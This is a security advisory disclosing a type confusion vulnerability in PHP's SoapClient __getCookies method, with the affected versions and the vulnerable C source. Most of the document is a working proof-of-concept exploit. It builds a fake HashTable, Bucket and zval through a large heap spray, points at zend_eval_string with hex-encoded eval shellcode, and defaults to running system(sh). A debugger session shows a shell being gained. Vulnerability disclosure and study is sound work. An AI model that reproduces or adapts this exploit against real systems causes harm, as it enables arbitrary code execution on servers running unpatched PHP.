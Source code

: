 # Type Confusion Vulnerability in SoapClient
> Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.3.1 - Release Date: 2015.3.20

A type confusion vulnerability was discovered in SoapClient object's __getCookies() method that can be abused for leaking arbitrary memory blocks or execute arbitrary code remotely

Affected Versions
------------
Affected is PHP 5.6 < 5.6.7  
Affected is PHP 5.5 < 5.5.23  
Affected is PHP 5.4 < 5.4.39  
Affected is PHP 5.3 <= 5.3.29

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------
``` c
PHP_METHOD(SoapClient, __getCookies)
{
	zval **cookies, *tmp;

	if (zend_parse_parameters_none() == FAILURE) {
		return;
	}

	array_init(return_value);

	if (zend_hash_find(Z_OBJPROP_P(this_ptr), "_cookies", sizeof("_cookies"), (void **)&cookies) != FAILURE) {
		zend_hash_copy(Z_ARRVAL_P(return_value), Z_ARRVAL_P(*cookies), (copy_ctor_func_t) zval_add_ref, (void *)&tmp, sizeof(zval*));
	}
}
```

The Z_ARRVAL_P macro leads to pointing a fake array-type ZVAL in memory via a fake HashTable and a fake Bucket. This should result in arbitrary code execution.
 
Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.10.3 installation of PHP 5.5.14.

``` php
<?php

ini_set("memory_limit", -1);

if ($_SERVER['argc'] < 2) {
	$_SERVER['argv'][1] = 'system(sh);exit;';
}

setup_memory();

$exploit = 'O:10:"SoapClient":1:{s:8:"_cookies";s:'.strlen($hashtable).':"'.$hashtable.'";}';
$z = unserialize($exploit);
// $z = new SoapClient(null, array('location' => "", 'uri' => ""));
// $z->_cookies = $hashtable;
$z->__getCookies();

function setup_memory()
{
	global $str, $hashtable;
	
	$base = 0x114000020;
	$bucket_addr = $base;
	$zval_delta = 0x100;
	$hashtable_delta = 0x200;
	$zval_addr = $base + $zval_delta;
	$hashtable_addr = $base + $hashtable_delta;
	$func_addr = 0x100351e3d; // zend_eval_string()'s address
	
	$bucket  = "\x01\x00\x00\x00\x00\x00\x00\x00";
	$bucket .= "\x00\x00\x00\x00\x00\x00\x00\x00";
	$bucket .= ptr2str($bucket_addr + 3*8);
	$bucket .= ptr2str($zval_addr);
	$bucket .= ptr2str(0);
	$bucket .= ptr2str(0);
	$bucket .= ptr2str(0);
	$bucket .= ptr2str(0);
	$bucket .= ptr2str(0);
	
	$hashtable  = "\x00\x00\x00\x00";
	$hashtable .= "\x00\x00\x00\x00";
	$hashtable .= "\x01\x00\x00\x00";
	$hashtable .= "\x00\x00\x00\x00";
	$hashtable .= "\x00\x00\x00\x00\x00\x00\x00\x00";
	$hashtable .= ptr2str(0);
	$hashtable .= ptr2str($bucket_addr);
	$hashtable .= ptr2str(0);
	$hashtable .= ptr2str(0);
	$hashtable .= ptr2str(0);
	$hashtable .= "\x00";
	$hashtable .= "\x00";
	
	$zval = ptr2str($hashtable_addr);
	$zval .= ptr2str(0);
	$zval .= "\x00\x00\x00\x00";
	$zval .= "\x04";
	$zval .= "\x00";
	$zval .= ptr2str(0);
	$zval .= ptr2str(0);
	$zval .= ptr2str(0);
  
	$shellcode = ptr2str(0);
	$shellcode .= ptr2str(0);
	$shellcode .= ptr2str(0);
	$shellcode .= ptr2str(0);
	$shellcode .= ptr2str($hashtable_addr + 6*8);
	$shellcode .= ptr2str(0);
	$shellcode .= ptr2str(0);
	$shellcode .= ptr2str($func_addr);
	$shellcode .= ptr2str($hashtable_addr + 9*8);
	$shellcode .= "\x65\x76\x61\x6c\x28\x24\x5f\x53\x45\x52\x56\x45\x52\x5b\x27\x61\x72\x67\x76\x27\x5d\x5b\x31\x5d\x29\x3b\x00"; // eval($_SERVER['argv'][1]);
	
	$part = str_repeat("\x73", 4096);
	for ($j=0; $j<strlen($bucket); $j++) {
		$part[$j] = $bucket[$j];
	}
	for ($j=0; $j<strlen($shellcode); $j++) {
		$part[$j+$hashtable_delta] = $shellcode[$j];
	}
	for ($j=0; $j<strlen($zval); $j++) {
		$part[$j+$zval_delta] = $zval[$j];
	}
	
	$str = str_repeat($part, 1024*1024*256/4096);
}

function ptr2str($ptr)
{
	$out = "";
	for ($i=0; $i<8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}

?>
```

Test the PoC on the command line, then any PHP code can be executed:

``` shell
$ lldb php
(lldb) target create "php"
Current executable set to 'php' (x86_64).
(lldb) run tcpoc.php 'system\(sh\)\;exit\;'
Process 2606 launched: '/usr/bin/php' (x86_64)
sh: no job control in this shell
sh-3.2$ php -v
PHP 5.5.14 (cli) (built: Jan  8 2015 22:33:37) 
Copyright (c) 1997-2014 The PHP Group
Zend Engine v2.5.0, Copyright (c) 1998-2014 Zend Technologies
sh-3.2$ exit
exit
Process 2606 exited with status = 0 (0x00000000) 
(lldb) 
```
